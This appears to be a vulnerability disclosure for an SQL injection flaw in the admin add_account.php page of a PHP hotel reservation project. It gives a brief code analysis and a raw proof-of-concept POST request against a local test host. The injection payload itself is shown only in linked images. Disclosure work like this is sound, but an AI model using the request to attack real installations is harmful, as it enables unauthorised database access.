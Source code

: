 # Simple Online Hotel Reservation System

## supplier 
https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code
## Vulnerability file
add_account.php name.php

## describe

**Code analysis**   

In the add_account.php file of Simple Online Hotel Reservation System, theuser name parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/8c25f249-fe2e-47df-9eaf-43af82da243e.png)


## POC

```
POST /simplehotel/HOR/admin/add_account.php HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 41
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/simplehotel/HOR/admin/add_account.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=s5o8pk3psueru08ci1jjc6b3if
Connection: close

name=1&username=1&password=1&add_account=

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/3e4127a1-3b76-454a-8ed4-034a9d5940cf.png)
Get payload:
![image-2025](https://github.com/asd1238525/cve/blob/main/504ac369-0993-4a0d-bb37-080ad3bc68ce.png)